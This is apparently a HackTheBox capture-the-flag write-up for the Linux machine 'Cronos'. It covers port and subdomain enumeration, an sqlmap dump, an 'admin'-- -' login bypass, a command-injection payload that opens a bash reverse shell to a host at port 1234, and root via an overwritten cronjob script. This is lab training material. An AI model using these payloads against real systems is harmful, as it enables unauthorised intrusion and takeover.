 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Cronos/logo.png
date: 2023-03-04 09:45:47+07:00
modified: 2023-03-04 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/1
  name: ch4p
tags: [OS Command Injection, cronos, PHP, Web, DNS, Hackthebox, Writeup]
title: Cronos - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Cronos is a **medium** Linux machine that focuses mainly on different vectors for enumeration and also emphasises the risks associated with adding world-writable files to the root crontab. This machine also includes an introductory-level SQL injection vulnerability



# Enumeration

First I check for available open ports.

`nmap -sC -sV -A -oG beep beep.htb`

![](https://photos.squarezero.dev/file/abir-images/Cronos/1.png)

|Ports|Service
|:-------------:|:-------------:|
|22| ssh OpenSSH 7.2p2 (4Ubuntu2.1)
|53| DNS
|80| Apache httpd 2.4.18

Next, I did directory brute-forcing but nothing interesting showed up. 

As there is a DNS server running I did a subdomain brute-forcing.

![](https://photos.squarezero.dev/file/abir-images/Cronos/2.png)



# Foothold

Upon visiting the subdomain I found a login page.

![](https://photos.squarezero.dev/file/abir-images/Cronos/3.png)

I have intercepted the request and saved the request as file.

![](https://photos.squarezero.dev/file/abir-images/Cronos/4.png)

Now I used SQLMAP with the file to find credentials for the website.

`sqlmap -r sql.req --batch --dump --level 5 --risk 3`

![](https://photos.squarezero.dev/file/abir-images/Cronos/5.png)

I tried the login but that didn't work. So, I tried SQL injection with user admin.

Payload → `admin'-- -`

Now I got in and found traceroute/ping option.

![](https://photos.squarezero.dev/file/abir-images/Cronos/6.png)

This looks like an OS command injection vulnerability.
So I intercepted the request and used a bash reverse shell to make the server connect to me.

Payload → `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1';`

**Note: Make sure the payload is URL encoded.**

![](https://photos.squarezero.dev/file/abir-images/Cronos/7.png)

And we got a shell !!

![](https://photos.squarezero.dev/file/abir-images/Cronos/8.png)

# Privilege Escalation

After checking with Linpeas I found a cronjob running with root permission.

![](https://photos.squarezero.dev/file/abir-images/Cronos/9.png)

So I have replaced the file with PHP-reverse-shell and renamed it to artisan.

![](https://photos.squarezero.dev/file/abir-images/Cronos/10.png)

After the cronjob executed I got a reverse shell with Root !! 